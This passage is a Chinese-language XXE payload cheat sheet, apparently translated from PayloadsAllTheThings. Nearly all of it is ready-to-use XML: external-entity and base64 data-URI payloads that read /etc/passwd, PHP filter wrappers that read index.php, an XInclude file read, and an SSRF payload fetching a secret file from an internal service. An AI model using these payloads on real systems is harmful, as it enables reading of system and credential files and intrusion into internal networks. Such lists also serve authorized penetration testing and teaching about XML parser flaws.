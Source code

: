 ```ps1
<!ENTITY % xxe PUBLIC "随机文本" "URL">
<!ENTITY xxe PUBLIC "任意文本" "URL">
```

### 经典XXE Base64编码

```xml
<!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>
```

### XXE中的PHP包装器

```xml
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<contacts>
  <contact>
    <name>Jean &xxe; Dupont</name>
    <phone>00 11 22 33 44</phone>
    <address>42 rue du CTF</address>
    <zipcode>75000</zipcode>
    <city>Paris</city>
  </contact>
</contacts>
```

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "php://filter/convert.base64-encode/resource=http://10.0.0.3" >
]>
<foo>&xxe;</foo>
```

### XInclude攻击

当你无法修改`DOCTYPE`元素时，可以使用`XInclude`来定位目标

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

## 利用XXE进行SSRF攻击

XXE可以与[SSRF漏洞](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)结合，以针对网络上的另一个服务。

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "http://internal.service/secret_pass.txt" >
]>
<foo>&xxe;</foo>
```
